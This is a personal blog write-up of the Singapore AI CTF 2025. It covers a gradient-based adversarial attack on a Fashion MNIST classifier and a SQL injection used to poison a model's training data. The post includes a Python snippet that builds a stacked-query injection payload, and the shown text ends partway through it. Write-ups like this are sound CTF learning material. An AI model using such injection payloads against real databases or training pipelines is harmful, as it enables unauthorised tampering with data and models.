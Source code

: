 ```yaml
---
layout: theme
title: Singapore AI CTF 2025
description: I participated in the Singapore AI CTF 2025, and had lots of fun.
tags: ["post"]
show_toc: true
---
```


The preliminary virtual round of the Singapore AI CTF 2025 ran from 11-13 Oct 2025. Together with **Jiang Xinnan**, **Zhou Taidi** and **Chua Rui Hong**, I participated under the banner of team 🌸. Despite achieving a rather sad 35th place out of 329 teams, I had fun! This was my first time playing in an explicitly AI-themed CTF, and—being decently familiar with AI—it was refreshing to finally end a CTF feeling like I hadn't absolutely bombed it.

Interestingly, this CTF seemed far easier than previous ones I'd attempted. All finalist teams full-solved within the first 9 hours, and solving 11 of 13 challenges still wasn't enough for us to enter the top 10%. That said, I didn't expect to do quite this well.

I can reasonably take credit for about seven of my team's solves; personally, I found only four of them worth writing about. Below I cover them in increasing order of how interesting the solutions were. Onward!

## Challenges

### 'Fool the FashionNet!'
Given a model trained on [Fashion MNIST](https://github.com/zalandoresearch/fashion-mnist), we need to trick it into misclassifying a given image $x$ by adding a small perturbation $p$ to $x$, subject to the constraints $\Vert p \Vert_\infty \le 0.08$ and $\text{SSIM}(x+p, x) \ge 0.85$. Since we were given the model checkpoint, a straightforward gradient-based adversarial attack is possible. (For the unitiated, I explain the theory in {% footnote-ref "fgsm" %}.)


### 'The best hedgehog'
In short: given some data point $x^\ast$ and model $f$, we need to alter the training data of $f$ such that $f(x^\ast)=100$.

At first glance, we're only allowed to add one additional data point to the training set. But inspecting the source code reveals:

{% figure "/media/posts/ai-ctf-2025/hedgehog-2.png", "", "Code to build SQL query by string concatenation." %}

{% figure "/media/posts/ai-ctf-2025/hedgehog.png", "GovTech, do you think I'm stupid?", "Code to execute SQL query, commented 'Execute the potentially malicious query' and 'Using executescript to allow multiple statements'." %}

So, an obvious SQL injection vulnerability. Use it to insert a large number of $(x^\ast, 100)$ into the training data, and we're done.

```python
import requests

s = [45, 50, 40, 35, 48, 42]
q = f"hello', {s[0]}, {s[1]}, {s[2]}, {s[3]}, {s[4]}, {s[5]}, 100); "
qq = ""
for i in range(1000):
    qq += f"""
        INSERT INTO hedgehogs
        (username, furriness, cuteness, friendliness, curiosity, agility, sleepiness, evaluation_score)
        VALUES
        ('{i}', {s[0]}, {s[1]}, {s[2]}, {s[3]}, {s[4]}, {s[5]}, 100); 
    """

```